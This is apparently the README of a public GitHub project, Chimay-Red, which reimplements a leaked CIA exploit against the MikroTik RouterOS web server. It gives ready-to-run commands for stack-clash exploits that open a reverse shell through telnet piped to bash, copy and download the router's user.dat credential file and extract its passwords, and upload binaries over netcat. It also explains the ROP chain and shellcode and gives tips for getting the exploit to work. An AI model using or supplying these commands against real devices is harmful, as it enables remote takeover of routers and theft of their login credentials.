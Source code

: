 Chimay-Red
==========

Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks

See the [PDF](docs/ChimayRed.pdf) for more info

# Vulnerable versions
Until RouterOS 6.38.4

What's new in 6.38.5 (2017-Mar-09 11:32):
!) www - fixed http server vulnerability;


# Proof of concepts
## CrashPOC
Simple crash sending -1 as content-length in post header


## StackClashPOC
Stack clash exploit using two threads, missing ROP chain


## Set up Python 2.7 virtual environment for exploit

Create Python 2.7 virtual environment within cloned git repository:

    virtualenv -p `which python2.7` venv


and activate it:

    source venv/bin/activate


Install required by exploit Python libraries within just created virtual environment:

    pip install -r requirements.txt


Install Capstone library which is required by Python **ropper** package:

    # Debian or Ubuntu
    sudo apt-get install libcapstone3


# Working exploits
## StackClash_x86
Stack clash exploit uses two threads with ROP chain to run bash commands

As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.
It's placed in `/nova/bin/`
Check that the running version is the same.
To simplify extraction you can use:

    ./tools/getROSbin.py 6.38.4 x86 /nova/bin/www www_6384_x86_binary


### For a reverse shell:

Start NetCat to listen on port 1234 for the connect back shell:

    nc -l -p 1234


Run exploit in another shell window:

    ./StackClash_x86.py 192.168.8.1 80 www_6384_x86_binary \
    "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"


Where:
- RouterOS IP: 192.168.8.1
- PC IP: 192.168.8.5


### To extract users and passwords
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ wget http://192.168.8.1/winbox/index
$ ./tools/extract_user.py index
```

## StackClash_mips
Stack clash exploit using two threads with ROP chain + shell code to run bash commands
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.
The exploit is dynamically created, so it should work on any version minor than 6.38.4.

### LCD
Funny command
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "echo hello world > /dev/lcd"
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)

### Upload binaries
On PC run:
```
$ hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /ram/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g" | nc -l -q 0 -p 1234
```
In another shell run reverse shell command.
Once the file is uploaded, run again reverse shell (this time only with `nc -l -p 1234`) and you will find busybox inside `/ram/`.

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?
This is a reverse engineering of leaked CIA documentation.
There is no chimay-red.py publicly available.

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:
We know that:
- each thread has 128KB of stack
- each stack of each thread is stacked on the top of the previous thread.

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

##### x86

The ROP chain construct "system" string and "your_shell_cmd" string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.
Then we return to "dlsym" function (present in the PLT) passing as argument the address of just created string "system" to find the address of "system" function.
Now we can return to the address of system passing as argument the address of the just created string "your_shell_cmd".

##### mips
DEP is disabled on this version of www, so I can execute the stack.
But I cannot use system function because "/bin/sh" is not present on the file system, so I used execve directly.
A small ROP (3 gadgets) find the address of a location on the stack (where I put the shell code), and then jump to that address.
In the shell code I populate an array of 4 pointers with the address of the strings "/bin/bash", "-c", "your_shell_cmd" using the leaked address of the stack (the last pointer is left NULL).
Then I populate a0, a1, a2 with rispectively: address of "/bin/bash", address of the array populated at the preceeding step and the address of the NULL entry of the array.
At this point I can launch the syscall 4011 (execve) to execute my bash command.

# Comments
- On very old versions like 6.18, the stack size is not 128KB, so the exploit doesn't work, i'll fix it in the future
- If the exploit doesn't work on recent version, make it crash with CrashPOC 3 or 4 times, then launch immediately StackClash and it will work
